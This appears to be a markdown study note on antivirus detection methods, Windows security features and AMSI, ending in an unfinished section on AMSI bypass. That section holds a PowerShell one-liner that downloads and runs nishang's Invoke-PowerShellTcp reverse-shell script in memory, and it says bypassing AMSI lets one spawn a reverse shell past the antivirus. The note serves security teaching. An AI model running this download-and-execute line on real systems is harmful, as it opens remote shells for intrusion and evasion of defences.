

## What is an Antivirus?

An `antivirus` is a software program designed to detect, prevent, and remove malicious software, which is also known as `malware`.

To differentiate standard software from malicious software various techniques can be used:

1. Signature-Based Detection

	- Compares files and programs against a database of known malware signatures (unique identifiers for malicious code).

2. Static Analysis

	- Analyzes the behavior and structure of files to detect suspicious patterns resembling malware.

3. Dynamic Analysis

	- Monitors real-time behavior of programs to identify malicious actions.

	- Can use `sandboxes' as isolated environments to observe malware
     behavior.

4. Machine Learning Analysis

	- Uses algorithms to identify patterns in files or behaviours that indicate malicious intent.

### Related Technologies

In the context of analyzing malware, there are many related technologies:
- Network Firewalls
- Web Application Firewalls
- Intrusion Detection and prevention Systems (IDPS)
- Endpoint Detection and Response (EDR)

## And in Windows?

In the context of windows, the following default technologies can be used to increase the security of the system:

  - **Windows Defender Antivirus**

	- Provides real-time protection against viruses, malware, and spyware.

  - **Firewall & Network Protection**

	- Monitors incoming and outgoing traffic to block unauthorized access.

  - **Windows Hello**

	- Offers secure, password-free sign-in using biometrics.

  - **BitLocker**

	- Encrypts hard drives to protect data from unauthorized access, particularly useful on lost or stolen devices.

  - **Secure Boot**

	- Ensures that only trusted software loads during startup to prevent rootkits and bootkits.

### Windows Antimalware Scan Interface (AMSI)

In 2015, Microsoft introduced the `Windows Antimalware Scan Interface` (AMSI), which is an agnostic security interface that allows application and services to integrate with security products installed on a computer in order to provide security scans.

It provides a standard interface that allows solutions to scan files, memory, and other data for threats.

Data flow of AMSI:

1.  Application or service requests a scan

2. The request is sent to the AMSI provider, which is a security solution installed on the system.

3. The AMSI provider then performs the scan using its own malware detection algorithms.

4. The results of the scans are returned to the requesting application or service.

  AMSI can analyze the following components:
  
  - PowerShell (from v2.0)
  - Windows Script Host
  - JavaScript and VBScript
  - Office Macros (VBA)
  - Excel Macros
  - .NET framework
  - Windows Management Instrumentation (WMI)

---

To list out existing AMSI DLLs:
```cmd
tasklist /m amsi*
```

To list out AMSI providers:
```powershell
Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct | Select-Object DisplayName, PathToSignedProductExe, ProductState
```

---

The following ASMI Architecture is described by the following image:



Developers make AMSI request using specific APIs

```c
// Initialize AMSI
hResult = AmsiInitialize(APP_NAME, &amsiContext);
hResult = AmsiOpenSession(amsiContext, &session);

// Scan
hResult = AmsiScanBuffer(amsiContext, content, contentSize, fname, session, &amsiRes);
```

## AMSI Bypas

Open a `powershell.exe` with the antivirus ON, and try to download the `Invoke-PowerShellTcp` and load it into the process memory:
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

You will see the following error, which is the result of an AMSI scan.

```powershell
iex : At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:1
+ iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/maste ...
+  ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	+ CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException	
	+ FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

If we bypass AMSI however, we will be able to avoid such error and to spawn a reverse shell, even if the antivirus is executing.

The idea behind all AMSI bypass techniques have to do with modifying in the memory of the powershell the structures used by the AMSI system.

```c
// Initialize AMSI
hResult = AmsiInitialize(APP_NAME, &amsiContext);
hResult = AmsiOpenSession(amsiContext, &session);

// Scan
hResult = AmsiScanBuffer(amsiContext, content, contentSize, fname, session, &amsiRes);
```

For example, the `HAMSICONTEXT` structure is used in every AMSI-related functions

```c
HRESULT AmsiInitialize(
	LPCWSTR appName,
	HAMSICONTEXT *amsiContext
);
```


```c
HRESULT AmsiOpenSession(
	HAMSICONTEXT amsiContext,
	HAMSISESSION *amsiSession
);
```


